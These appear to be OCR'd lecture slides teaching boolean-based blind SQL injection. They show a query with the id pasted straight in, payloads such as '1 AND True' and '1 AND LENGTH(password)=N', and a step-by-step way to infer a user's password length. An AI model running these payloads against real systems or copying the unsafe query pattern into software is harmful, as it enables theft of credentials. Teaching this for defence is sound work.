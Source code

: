 Display user info - EXPLOIT
“Always” true query (id must exist)
Query:		SELECT * FROM users WHERE id=$id
Payload: 		1 AND True
SELECT * FROM users WHERE id=1 AND True
Displays user informations
Name: 		Arthur
Signature: 		Is there any tea on this spaceship?

Display user info - EXPLOIT
Always false query
Query:		SELECT * FROM users WHERE id=$id
Payload: 		1 AND False
SELECT * FROM users WHERE id=1 AND False
Displays error message
User not found

Display user info - EXPLOIT
Blind Injections
The result page can’t display any additional information
It can only answer YES or NO (in our page: “user info” or “no user found”)
We know that Left-hand-side argument of our AND is true (id=1)
but what about the Right-hand-side?
AND True
True if left-hand-side is True 		True AND True => True
AND False
Always False					(anything) AND False => False
Or we could reconstruct it, by knowing the page Result (and assuming left-hand-side = True)
True AND X = (Page result)
if X were True,					True AND X => True AND True => YES
If X were False,					True AND X => True AND False => NO

Display user info - EXPLOIT
Boolean-Based Blind Injections
Brute Force
The value of X can be inferred from the page output, but it can’t be read directly
If X is some generic condition, we can evaluate it and get True or False
…  AND LENGTH(password)>2 
[For the examined user] Evaluate if the password field is longer than 2 characters
If it is, the page will display user information as usual
If it isn’t, the page will display an error message (user not found)
We can now ask questions to our DB, but it can only answer YES or NO
We need to be smart about this, let’s try something: 
… AND password=”a”			=> NO
… AND password=”aa”		=> NO
… ok, this will get us nowhere, we need to try something smarter

Display user info - EXPLOIT
Boolean-Based Blind Injections
“Smarter” Brute Force - Step 1
First, we get the password field length
Query:		SELECT * FROM users WHERE id=$id
Payload: 		1 AND LENGTH(password)=1			1 AND LENGTH(password)=2			…
SELECT * FROM users WHERE id=1 AND LENGTH(password)=1		=> NO
SELECT * FROM users WHERE id=1 AND LENGTH(password)=2		=> NO
…
SELECT * FROM users WHERE id=1 AND LENGTH(password)=8		=> YES
